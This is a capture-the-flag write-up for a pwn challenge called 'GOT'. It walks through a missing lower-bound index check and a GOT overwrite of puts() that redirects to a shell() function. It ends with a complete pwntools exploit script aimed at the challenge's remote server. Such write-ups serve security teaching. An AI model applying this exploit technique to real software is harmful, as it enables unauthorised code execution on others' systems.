 # GOT

This challenge provide us a binary. Looking at it on IDA we get this:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int idx; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  idx = 0;
  puts("Hey ! I've never seen Game of Thrones and i think i misspelled a name, can you help me ?");
  puts("Which name is misspelled ?\n1. John\n2. Daenarys\n3. Bran\n4. Arya");
  fwrite("> ", 1uLL, 2uLL, stdout);
  __isoc99_scanf("%d", &idx);
  if ( idx > 4 )
  {
    puts("Huuuhhh, i do not know that many people yet...");
    _exit(0);
  }
  puts("Oh really ? What's the correct spelling ?");
  fwrite("> ", 1uLL, 2uLL, stdout);
  read(0, &PNJs[idx], 0x20uLL);
  puts("Thanks for the help, next time i'll give you a shell, i already prepared it :)");
  return 0;
}
```

```c
void __cdecl shell()
{
  system("/bin/sh");
}
```

Here, the vulnerability lies in the `read(0, &PNJs[idx], 0x20uLL)` call. Although `idx` is checked for upper bounds (`idx > 4`), there is no lower bounds check. This allows us to provide a negative index, accessing memory before the `PNJs` array.

Since the program calls `puts()` after reading our input, we can **overwrite its GOT entry** with the address of the `shell()` function. When the program subsequently calls` puts()`, execution will instead jump to `shell()`, giving us a shell.

## solve.py


```py
from pwn import *

elf = ELF('./got')

pnjs = elf.symbols['PNJs']
puts_got = elf.got['puts']
shell_addr = elf.symbols['shell']

idx = (puts_got - pnjs) // 0x20         # -4
padding = (puts_got - pnjs) % 0x20      # 8
payload = b'\x00' * padding + p64(shell_addr)

# r = process(elf.path)
r = remote("got-40f2465cc05e5ddc.deploy.phreaks.fr", 443, ssl=True)

r.recvuntil(b'Which name is misspelled ?')
r.sendline(str(idx).encode())
r.recvuntil(b"What's the correct spelling ?")
r.send(payload)
r.interactive()
```
